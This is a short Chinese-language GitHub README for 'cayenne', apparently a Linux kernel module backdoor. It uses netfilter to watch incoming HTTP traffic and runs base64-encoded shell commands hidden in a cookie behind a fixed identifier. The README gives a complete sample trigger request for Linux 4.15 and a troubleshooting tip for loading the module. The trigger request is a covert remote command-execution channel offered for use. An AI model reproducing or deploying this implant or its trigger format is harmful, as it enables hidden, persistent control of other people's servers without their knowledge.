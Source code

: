 # cayenne
通过HTTP请求中的某一约定字段做C2控制，内核层通过netfilter监听并执行命令
## 内核
LINUX 4.15.0-143-generic  
## DEMO
```
GET / HTTP/1.1
Host: 192.168.122.136
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
cookie: 91d1c532-b156-11eb-8e2c-dfb994043297;ZWNobyAxID4gL3RtcC8xMjM0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36 Edg/90.0.818.51
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```
cookie后半部分是base64编码的shell命令，目前的实现没有做回显（时延问题实在不好解决）
## FAQ
如遇错误
```
cayenne: Unknown symbol __nf_nat_mangle_tcp_packet (err -2)
```
先执行如下语句后再重试insmod  
```
sudo iptables -t nat --list
```